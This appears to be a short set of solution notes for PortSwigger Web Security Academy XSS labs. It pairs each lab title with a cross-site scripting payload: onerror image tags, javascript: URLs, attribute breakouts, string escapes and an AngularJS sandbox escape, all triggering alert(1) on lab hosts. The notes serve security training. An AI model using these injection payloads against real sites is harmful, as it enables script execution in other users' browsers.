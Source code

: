 # Lab: DOM XSS in innerHTML sink using source

-> payload: ```<img src='123.png' onerror='alert(1)'>```


Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

payload: ```https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)```


Lab: Reflected XSS into attribute with angle brackets HTML-encoded

-> payload: ``` " autofocus onfocusin='alert(1)' x="```


Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

-> payload: ``` https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">``` (fill to website)


Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

-> payload: ``` 123'; alert(1);//```


Lab: DOM XSS in document.write sink using source location.search inside a select element

-> payload: ``` https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>```


Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

-> payload: ``` {{constructor.constructor('alert(1)')()}}```

